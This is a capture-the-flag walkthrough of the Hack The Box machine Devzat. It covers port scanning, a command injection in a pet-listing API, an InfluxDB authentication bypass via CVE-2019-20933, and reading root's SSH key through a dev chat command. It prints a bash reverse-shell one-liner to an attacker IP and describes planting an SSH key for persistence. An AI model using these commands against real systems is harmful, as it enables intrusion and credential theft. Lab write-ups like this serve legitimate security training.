# Hack The Box: Devzat (Medium)

<p align="center";>
    
</p>

## Quick Summary:

This week's Writeup will be for Devzat. This is a Linux box and the machine IP is `10.10.11.118`. Last step before I start is to add `devzat.htb` to `/etc/hosts`.

## Nmap:

As always we will start with some simple `nmap` scans.

```
Full TCP scan with default scripts and default enumeration

# Nmap 7.92 scan initiated Tue Feb 15 17:15:36 2022 as: nmap -sC -sV -p- --min-rate 5000 -o nmap/full-TCP.scan 10.10.11.118
Nmap scan report for 10.10.11.118
Host is up (0.097s latency).
Not shown: 65501 filtered tcp ports (no-response), 32 closed tcp ports (conn-refused)
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  tcpwrapped
|_http-server-header: Apache/2.4.41 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 15 17:16:30 2022 -- 1 IP address (1 host up) scanned in 53.54 seconds
```

```
Full basic UDP scan

# Nmap 7.92 scan initiated Tue Feb 15 17:24:19 2022 as: nmap -sU --min-rate 5000 -o nmap/initial-UDP.scan 10.10.11.118
Warning: 10.10.11.118 giving up on port because retransmission cap hit (10).
Nmap scan report for devzat.htb (10.10.11.118)
Host is up (0.25s latency).
Not shown: 981 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
764/udp   closed omserv
1782/udp  closed hp-hcip
9001/udp  closed etlservicemgr
16548/udp closed unknown
17006/udp closed unknown
17282/udp closed unknown
19181/udp closed unknown
19662/udp closed unknown
20522/udp closed unknown
21360/udp closed unknown
21698/udp closed unknown
24279/udp closed unknown
32774/udp closed sometimes-rpc12
34861/udp closed unknown
36945/udp closed unknown
41971/udp closed unknown
42313/udp closed unknown
49190/udp closed unknown
58797/udp closed unknown

# Nmap done at Tue Feb 15 17:24:33 2022 -- 1 IP address (1 host up) scanned in 14.70 seconds
```

As shown in the scans we only have 2 ports open `22/tcp` and `80/tcp`.

## Web Enumeration:

`http://devzat.htb`

<p align="left";>
    
</p>

Looking around the home page, there is something interesting at the bottom of the webpage, however it is not relevent until later, so we will look at it later.

The next step would be to run a directory scan which doesn't seem to give us much information.

```
/images               (Status: 301) [Size: 309] [--> http://devzat.htb/images/]
/assets               (Status: 301) [Size: 309] [--> http://devzat.htb/assets/]
/javascript           (Status: 301) [Size: 313] [--> http://devzat.htb/javascript/]
/server-status        (Status: 403) [Size: 275]
```

As we can see there isn't much here and looking into these directories doesn't provide much information.

The next step would be to look into vhost scanning which does produce some useful results.

```
Found: pets.devzat.htb (Status: 200) [Size: 510]
```

Navigating to this page gives us a new area of the web server to look into.

<p align="left";>
    
    
</p>

## Getting a Foothold:

Trying to add a new pet will simply add the pets name and species with extra information at the end. Looking at this request in burp shows a POST request to an api with the pet and species parameters we provided.

<p align="left";>
    
</p>

Poking around in repeater, I got lucky and found a simple command injection vulnerability with the POST request parameters.

<p align="left";>
    
</p>

Now that we have RCE we can spawn a reverse shell using:<br> `bash -c 'bash -i >& /dev/tcp/10.10.16.5/4444 0>&1'`.

<p align="left";>
    
</p>

<p align="left";>
    
</p>

The final step here was to add my public ssh key to the `authorized_keys` file to gain a stable shell.

## Looking into Devchat:

Earlier in the homepage of `devzat.htb` we saw an ssh command prompting us ssh into the box at port 8000. Originally this is one of the first things I did and ended up finding some information that was not relevant until now.

<p align="left";>
    
</p>

There isnt alot of information here and looking into the commands doesn't provide any leads either. At this point I though to try `admin` which didn't work, however, `Admin` did.

<p align="left";>
    
</p>

Now we can see some message logs including some information about patrick setting up influxdb. After a small amount of googling I found that influxdb runs on port `8086`. Moving back to the ssh connection we can run `netstat -tulnp` to look for any listening ports.

<p align="left";>
    
</p>

As we can see here port 8086 is open and we can assume that this is where InfluxDB is running. Now we can try to connect to it with `influx`, however, the `influxdb-client` package is not installed. This means we will have to port forward this service to our machine to be able to interact with it.

<p align="left";>
    
</p>

## Exploiting InfluxDB for User:

Now that the service is available on out local host, we can nmap the port to get more information on the service.

```
# Nmap 7.92 scan initiated Thu Feb 24 13:25:35 2022 as: nmap -sC -sV -p 8086 -oN nmap/influxdb.scan localhost
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0053s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
8086/tcp open  http    InfluxDB http admin 1.7.5
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb 24 13:25:45 2022 -- 1 IP address (1 host up) scanned in 9.58 seconds
```

This reveals that the version of InfluxDB is 1.7.5. Looking into available exploits for this version of InfluxDB gives us two resources to reference. 

CVE-2019-20933: `https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933`
InfluxDB Enum: `https://book.hacktricks.xyz/pentesting/8086-pentesting-influxdb`

The github repo does prove to be more useful because the exploit provided can preform an auth bypass attack on InfluxDB and give us access to the databases.

<p align="left";>
    
</p>

This allows us to start exploring the databases. We will start with Devzat because it is the non-default of the two available databases.

<p align="left";>
    
</p>

This shows us that there is a table called `user` inside theis database. Reading the contents of this table provides us with credentials.

<p align="left";>
    
</p>

The only user here that corrosponds with `/etc/passwd` is catherine, but trying to SSH using these credintials did not work so I decided to use `su - catherine` to switch accounts from patrick.

<p align="left";>
    
</p>

## Exploiting Devchat for Root:

Now that we have access to the user we can get LinPEAS on the system and start to look for ways to aquire root access.

The output from LinPEAS shows some interesting writeable files in `/var/backups/`. This included backups from the `main` version of devchat and the `dev` version of devchat.

<p align="left";>
    
</p>

Moving these files to `/tmp` and extracting them shows all the files that are used when deploying devchat. looking at the available commands for build and dev shows that the dev branch has a `/file` command which cat grab files from the root directory when given the proper password which is also shown in plain text in the backup.

<p align="left";>
    
    
</p>

Now that we have this information we can try to see if the dev branch is running locally, which when we look at the output of `netstat` before there is one onther port that we haven't looked into, and that is `8443`. Attempting to ssh into this version of devchat and running `/commands` shows that it does have the `/file` command.

<p align="left";>
    
</p>

Now we can run the `/file` command to grab the roots private ssh key.

<p align="left";>
    
</p>

Now we can SSH into the box as root and we have completed the box.

<p align="center";>
    
</p>